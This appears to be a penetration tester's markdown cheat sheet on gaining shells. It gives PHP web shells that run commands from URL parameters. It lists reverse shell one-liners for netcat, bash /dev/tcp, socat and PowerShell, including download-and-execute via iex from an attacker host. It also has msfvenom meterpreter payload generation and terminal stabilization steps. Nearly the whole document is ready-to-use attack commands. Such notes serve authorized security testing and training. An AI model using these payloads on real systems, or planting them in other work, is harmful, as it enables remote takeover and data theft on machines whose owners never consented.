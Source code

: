 # shells

## Web shells

- Simple web shells

```shell
<?php system($_GET['cmd']); ?>
```

```shell
<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>
```

- Infamous pentestmonkey PHP reverse shell [https://github.com/pentestmonkey/php-reverse-shell](https://github.com/pentestmonkey/php-reverse-shell)
- PHP reverse shell (windows also) [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

## Payloads

A list of reverse shell payloads can be found at [PayloadsAllTheThings GitHub](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md). 
Common payloads include

- Netcat traditional

```
nc ip 4444 -e /bin/bash
```

- Netcat 
```
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc ip 4444 >/tmp/f
```

- Bash TCP
```shell
#!/bin/bash
bash -i >& /dev/tcp/me/4444 0>&1
```

- Socat
```shell
# listener
socat TCP-L:4444 FILE:`tty`,raw,echo=0

# victim
socat TCP:me:4444 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```
- Powershell

```powershell
powershell -c "iex (New-Object Net.WebClient).DownloadString('http://me:8888/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress me -Port 4444"
```

- Powershell (staged)

```powershell
powershell (New-Object Net.WebClient).Downloadfile('http://me:8888/Invoke-PowerShellTcp.ps1')
powershell Import-Module ./Invoke-PowerShellTcp.ps1; Invoke-PowershellTcp -Reverse -IPAddress me -Port 4444
```

- Msfvenom

```shell
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=me LPORT=4444 -f elf -o rev
msfvenom -p linux/x64/meterpreter/bind_tcp RHOST=$ip LPORT=4444 -f elf -o rev.sh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=me LPORT=4444 -f exe -o rev.exe
```

## Stabilization

- Stabilize your shell using

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
alias ls='ls --color=auto'
alias grep='grep --color=auto'
export TERM=xterm
```

depending on Python version available.

- Set up autocomplete. Background the shell using `CTRL + Z` and run

```shell
stty raw -echo; fg
```
to foreground the shell using tab completion.


